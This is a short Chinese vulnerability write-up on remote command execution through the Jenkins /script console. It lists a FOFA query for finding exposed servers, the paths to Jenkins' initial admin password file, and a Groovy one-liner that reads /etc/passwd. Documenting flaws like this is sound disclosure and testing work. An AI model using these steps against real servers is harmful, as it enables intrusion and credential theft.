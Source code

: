 # Jenkins script 远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

```
Jenkins
```

## FOFA

```
app="Jenkins"
```

## 漏洞复现

账号密码存在于：

```
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```
println 'cat /etc/passwd'.execute().text
```

![image-20220525163148014](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251631073.png)